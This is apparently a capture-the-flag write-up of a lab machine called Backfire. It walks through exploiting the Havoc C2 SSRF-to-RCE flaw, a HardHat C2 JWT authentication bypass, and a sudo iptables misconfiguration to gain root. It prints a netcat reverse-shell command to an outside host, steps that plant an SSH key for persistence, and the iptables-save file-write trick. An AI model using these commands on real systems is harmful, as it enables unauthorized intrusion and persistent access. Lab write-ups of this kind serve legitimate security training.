

## Summary
User Ilya: Havoc C2 Exploit: SSRF + RCE\
Lateral mouvement to Sergej: HardHat C2 Exploit: Authentification bypass + RCE\
Root: Sudo misconfiguration

## Enumeration
Starting with an nmap scan, we can identify two web services, the one accessible on port 8000 catch our attention here.


$ nmap 10.10.11.49 -Pn -v

PORT     STATE    SERVICE
22/tcp   open     ssh
443/tcp  open     https
5000/tcp filtered upnp
7096/tcp filtered unknown
8000/tcp open     http-alt


## User Ilya
### Exploit Havoc C2: SRF + RCE

The directory listing exposed on the port 8000 allows us to retrieve two files:
- `disable.tls.patch`: This file indicates that TLS is disabled for WebSocket management on port 40056, allowing an unsecure connection.
- `havoc.yaotl`:  A configuration file for the Havoc C2 framework.

These files suggest that the exploitation will rely on one or more vulnerabilities related to the Havoc command and control (C2) server.

After some digging, we came across this exploit: https://github.com/sebr-dev/Havoc-C2-SSRF-to-RCE.\
This exploit combines two vulnerabilities: 

- CVE-2024-41570, which exploits an SSRF flaw to open a TCP socket on the main server (teamserver) allowing data read/write.
- A command injection that lets an authenticated user execute commands on that server.

After installing the Havoc framework, we launch both the server and the client.


$ ./havoc server --verbose --debug --profile /home/kali/Téléchargements/havoc.yaotl
              _______           _______  _______ 
    │\     /│(  ___  )│\     /│(  ___  )(  ____ \                                            
    │ )   ( ││ (   ) ││ )   ( ││ (   ) ││ (    \/                                            
    │ (___) ││ (___) ││ │   │ ││ │   │ ││ │                                                  
    │  ___  ││  ___  │( (   ) )│ │   │ ││ │                                                  
    │ (   ) ││ (   ) │ \ \_/ / │ │   │ ││ │                                                  
    │ )   ( ││ )   ( │  \   /  │ (___) ││ (____/\                                            
    │/     \││/     \│   \_/   (_______)(_______/                                            

         pwn and elevate until it's done

[12:47:51] [DBUG] [cmd.init.func2:59]: Debug mode enabled
[12:47:51] [INFO] Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]
[12:47:51] [INFO] Havoc profile: /home/kali/Téléchargements/havoc.yaotl
[12:47:51] [INFO] Build: 
 - Compiler x64 : data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc
 - Compiler x86 : data/i686-w64-mingw32-cross/bin/i686-w64-mingw32-gcc
 - Nasm         : /usr/bin/nasm
[12:47:51] [INFO] Time: 04/06/2025 12:47:51
...



$ ./havoc client
              _______           _______  _______ 
    │\     /│(  ___  )│\     /│(  ___  )(  ____ \                                            
    │ )   ( ││ (   ) ││ )   ( ││ (   ) ││ (    \/                                            
    │ (___) ││ (___) ││ │   │ ││ │   │ ││ │                                                  
    │  ___  ││  ___  │( (   ) )│ │   │ ││ │                                                  
    │ (   ) ││ (   ) │ \ \_/ / │ │   │ ││ │                                                  
    │ )   ( ││ )   ( │  \   /  │ (___) ││ (____/\                                            
    │/     \││/     \│   \_/   (_______)(_______/                                            

         pwn and elevate until it's done

[12:47:53] [info] Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]
[12:47:53] [info] loaded config file: client/config.toml
[12:47:54] [info] Connecting to profile: HTB
<string>:114: SyntaxWarning: invalid escape sequence '\W'
[12:47:54] [info] Started "Demon Listener" listener


Using the `Ilya` account retrieved from the Havoc configuration file, we run the exploit with the following command to gain a reverse shell on the server:


$ python3 CVE-2024-41570.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056 -U ilya -P 'CobaltStr1keSuckz!'
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
...
Enter command to execute: busybox nc 10.10.14.173 80 -e sh
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!


As the reverse shell was unstable and kept disconnecting, we add our public SSH key to Ilya’s SSH authorized_keys file for a more stable access.

$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.173] from (UNKNOWN) [10.10.11.49] 60884
echo "ssh-ed25519 A...k kali@kali" >> /home/ilya/.ssh/authorized_keys
cat /home/ilya/.ssh/authorized_keys
...
ssh-ed25519 A...k kali@kali


Then, we can access the server via SSH and grab the user flag.

$ ssh -i ~/.ssh/id_ed25519 ilya@10.10.11.49
...
ilya@backfire:~$ ls
files  hardhat.txt  Havoc  user.txt
ilya@backfire:~$ cat user.txt
b96[...]016b


## Lateral mouvement: Sergej
### Exploit HardHat C2: Authentification bypass + RCE

Inside `Ilya`’s home directory, there is a file called `hardhat.txt` containing the following content:


ilya@backfire:~$ ls
files  hardhat.txt  Havoc  user.txt
ilya@backfire:~$ cat hardhat.txt
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 


Checking the open ports confirms that a `HardHat` instance, another command and control server, is running on the machine:


ilya@backfire:~$ netstat -planetu
..
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1001       50679      -                   
tcp        0      0 0.0.0.0:7096            0.0.0.0:*               LISTEN      1001       51911      -                   
tcp        0      0 127.0.0.1:40056         0.0.0.0:*               LISTEN      1000       54307      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      0          21679      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          22673      -                   
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      0          21680      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      1000       53569      -                   
tcp        0      0 10.10.11.49:55332       10.10.14.156:80         ESTABLISHED 1000       54389      4854/sh             
tcp        0      0 127.0.0.1:40056         127.0.0.1:35702         ESTABLISHED 1000       53582      -                   
tcp        0      0 127.0.0.1:35702         127.0.0.1:40056         ESTABLISHED 1000       54337      -                   
tcp        0    272 10.10.11.49:22          10.10.14.156:36602      ESTABLISHED 0          53621      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      0          22684      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          15357      -                   
udp        0      0 10.10.11.49:43747       8.8.8.8:53              ESTABLISHED 997        54599      -                   
udp        0      0 10.10.11.49:58233       8.8.8.8:53              ESTABLISHED 1001       53738      -                   
udp        0      0 10.10.11.49:44241       8.8.8.8:53              ESTABLISHED 1001       54632      - 


Since `Sergej` made no changes to the default configuration of the C2, we will rely on the following article to compromise his account:
https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7

More specifically, we focus on vulnerabilities 2 and 3.

The first vulnerability, an authentication bypass, exploits the fact that HardHat uses a static key to sign JWTs, which here allows us to create authentication tokens for any role.

We then forward the port 5000 to use the script from the article and create a new user with the role of `TeamLead`.


ssh -L 5000:localhost:5000 ilya@10.10.11.49


In the script, we set set the `rhost`parameter to `rhost = 'localhost:5000'` and proceed to create our new user.


$ python3 ./exploit.py
...
Generated JWT:
ey...oH6CDUNc
...
User sth_pentest created


Now that our user has been created, we'll exploit the second vulnerability to achieve code execution through the HardHat interface available on port 7096.

First, we forward this port and log in using our `stj_pentest` account.


$ ssh -L 7096:localhost:7096 ilya@10.10.11.49


Next, we will access the `ImplantInteract` page to use the integrated console.

We confirm that commands are executed as `Sergej`, so we add our public key to this user's authorized_keys file in order to connect via SSH.

## Root
### Sudo misconfiguration

Once connected via SSH, we notice a misconfiguration of the sudo utility for the user `Sergej`.


$ ssh -i ~/.ssh/id_ed25519 sergej@10.10.11.49          
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
sergej@backfire:~$ ls
HardHatC2  hardhat_firewall.sh
sergej@backfire:~$ cat hardhat_firewall.sh 
#!/bin/bash

#sudo /usr/sbin/iptables-save > /tmp/rules.v4
sudo /usr/sbin/iptables -F

sudo /usr/sbin/iptables -A INPUT -p tcp -s localhost --dport 5000 -j ACCEPT
sudo /usr/sbin/iptables -A INPUT -p tcp --dport 5000 -j REJECT

sudo /usr/sbin/iptables -A INPUT -p tcp -s localhost --dport 7096 -j ACCEPT
sudo /usr/sbin/iptables -A INPUT -p tcp --dport 7096 -j REJECT

sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save


We will rely on the following article to escalate our privileges: https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/

Here, the preservation of newlines in `iptables` comments allows us to write to an arbitrary file using `iptables-save`.

We proceed to overwrite the root authorized_keys file to add our own key allowing us to gain SSH access as `root`.


sergej@backfire:~$ sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AA...Dk kali@kali\n'
sergej@backfire:~$ sudo iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "
ssh-ed25519 AA...Dk kali@kali
" -j ACCEPT
sergej@backfire:~$ sudo iptables-save -f /root/.ssh/authorized_keys



$ ssh -i ~/.ssh/id_ed25519 root@10.10.11.49          
root@backfire:~# ls
root.txt
root@backfire:~# cat root.txt
a7b[...]74e


## Resources
> [GitHub Repo for the Havoc C2 Framework](https://github.com/HavocFramework/Havoc)\
> [GitHub Repo for the Havoc C2 SSRF + RCE Exploit](https://github.com/sebr-dev/Havoc-C2-SSRF-to-RCE)\
> [Medium Article for the HardHat C2 Exploit](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)\
> [Article Explaining How to Exploit iptables and iptables-save via a sudo Misconfiguration](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/)